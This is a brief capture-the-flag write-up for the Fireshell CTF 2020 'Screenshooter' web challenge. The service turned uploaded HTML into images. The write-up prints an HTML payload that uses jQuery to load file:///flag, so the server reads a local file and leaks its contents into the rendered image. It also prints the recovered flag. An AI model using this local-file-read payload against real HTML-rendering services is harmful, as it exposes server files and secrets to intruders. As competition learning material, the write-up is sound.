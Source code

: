 # FireshellCTF2020_Screenshooter - Write-up
Web challenge solved during Fireshell CTF 2020 (by Ganesh - USP)

## Challenge description
``` 
Turn your beautiful website into an image with our new tool!

flag is on /flag

https://screenshoter.fireshellsecurity.team/
```

## Write-up
The website converted HTML files into images. After trying some stuff, we've tried making the server convert this HTML code into an image:
``` HTML
<!DOCTYPE html>
<html> 
  <head> 
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.1.0/jquery.min.js"></script>
    <script> 
        $(function() {
            $("#fl4g").load("file:///flag"); 
        });
    </script> 
  </head> 
  <body> 
     <div id="fl4g"></div>
  </body> 
</html>
```
As expected, the resulting image contained the flag that was in `file:///flag`.

**Flag:** `F#{R3ally_b4d_Ph4nT0m_!!} `